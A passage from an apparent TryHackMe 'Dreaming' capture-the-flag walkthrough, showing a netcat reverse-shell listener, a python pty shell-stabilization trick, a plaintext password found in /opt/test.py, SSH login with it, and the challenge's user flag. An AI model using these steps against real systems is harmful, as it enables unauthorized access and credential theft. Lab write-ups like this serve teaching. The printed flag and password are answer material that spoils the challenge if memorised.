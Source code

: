 ```bash
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Dreaming]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.8.162.183] from (UNKNOWN) [10.10.8.38] 33634
Linux ip-10-10-8-38 5.15.0-138-generic #148~20.04.1-Ubuntu SMP Fri Mar 28 14:32:35 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
 18:59:14 up 46 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

## Shell Stabilization

We can perform a [[Shell Stabilization]] :

```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ip-10-10-8-38:/$ export TERM=xterm
export TERM=xterm
www-data@ip-10-10-8-38:/$ ^Z
zsh: suspended  nc -lvnp 1337
                                                                                                                              
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Dreaming]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvnp 1337
                               reset
www-data@ip-10-10-8-38:/$ 
```

Now we search for something :

```bash
www-data@ip-10-10-8-38:/$ cd opt
www-data@ip-10-10-8-38:/opt$ ls
getDreams.py  test.py
www-data@ip-10-10-8-38:/opt$ cat test.py
import requests

#Todo add myself as a user
url = "http://127.0.0.1/app/pluck-4.7.13/login.php"
password = "HeyLucien#@1999!"
```
## SSH Access 

Let's try it on [[SSH]] with username `lucien` :

```bash
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Dreaming]
└─$ ssh lucien@dreaming.thm 

lucien@ip-10-10-8-38:~$ cat lucien_flag.txt 
THM{TH3_L1BR4R14N}
```

